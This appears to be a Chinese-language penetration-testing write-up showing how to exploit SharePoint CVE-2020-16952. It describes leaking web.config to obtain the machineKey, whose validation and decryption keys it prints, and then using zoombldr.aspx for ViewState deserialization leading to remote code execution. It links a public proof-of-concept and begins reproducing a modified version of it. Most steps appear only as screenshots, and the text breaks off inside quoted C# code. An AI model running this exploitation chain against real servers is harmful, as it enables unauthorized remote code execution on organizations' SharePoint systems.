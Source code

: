 打 exp

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUABt0EEYkEqqR72jlmSA105RayGwHe3ib0V2leSzqmsscaMxibn5iaB4gg/640?wx_fmt=png)

需要进行 html 编码

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUcAP6Rte0J0GJbsTy9B0aFnqYQmz3U3WcnsI2oxyOHMbawsGged2kQQ/640?wx_fmt=png)

更改目录，这个目录如有需要则只能去进行爆破，没有太好的方法来进行猜解

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUkcAs50OxGGB9mSGBicuwu8EvvxlPujyicAaPBemia83Gkpp1SPibXxqnxg/640?wx_fmt=png)

得到 machineKey：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VFKOe4RacJnic1OshImX1LUZpQ4jQDf5nHs1e4shW2nhteAAib8NibRH05Zx6VoryRGXaqibfSp1EAYQ/640?wx_fmt=png)

```
<machineKey validationKey="A2BA2AD5D54775F3F5C669988F8DD2AAF50B218385E9858F3763672F558324CB"
 decryptionKey="128E38A90BC76010195252D42174D84A6299FF15A2659A16E8E15695821DAD01" 
 validation="HMACSHA256" />
```

在 HMACSHA256 加密的情况下，我只需要 validationKey 字段就可以完成反序列化利用。这里一般使用_layouts/15/zoombldr.aspx 来进行反序列化操作。

利用脚本地址如下：

https://srcincite.io/pocs/cve-2020-16952.py.txt ，更改后的脚本如下：

```
#!/usr/bin/python3
"""
Microsoft SharePoint Server DataFormWebPart CreateChildControls Server-Side Include Remote Code Execution Vulnerability
Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16952

## Summary:

An authenticated attacker can craft pages to trigger a server-side include that can be leveraged to leak the web.config file. The attacker can leverage this to achieve remote code execution.

## Notes:

- this does not require the use of a SharePoint endpoint such as WebPartPagesWebService
- the attacker needs AddAndCustomizePages permission enabled which is the default
- you will need to compile and store ysoserial.net in the same folder as this exploit

## Vulnerability Analysis:

Inside of the Microsoft.SharePoint.WebPartPages.DataFormWebPart we can observe the `CreateChildControls`

```c#
namespace Microsoft.SharePoint.WebPartPages
{
    [XmlRoot(Namespace = "http://schemas.microsoft.com/WebPart/v2/DataView")]
    [ParseChildren(true)]
    [Designer(typeof(DataFormWebPartDesigner))]
    [SupportsAttributeMarkup(true)]
    [AspNetHostingPermission(SecurityAction.LinkDemand, Level = AspNetHostingPermissionLevel.Minimal)]
    [SharePointPermission(SecurityAction.LinkDemand, ObjectModel = true)]
    [AspNetHostingPermission(SecurityAction.InheritanceDemand, Level = AspNetHostingPermissionLevel.Minimal)]
    [SharePointPermission(SecurityAction.InheritanceDemand, ObjectModel = true)]
    public class DataFormWebPart : BaseXsltDataWebPart, IDesignTimeHtmlProvider, IPostBackEventHandler, IWebPartRow, ICallbackEventHandler, IConnectionData, IListWebPart
    {
```
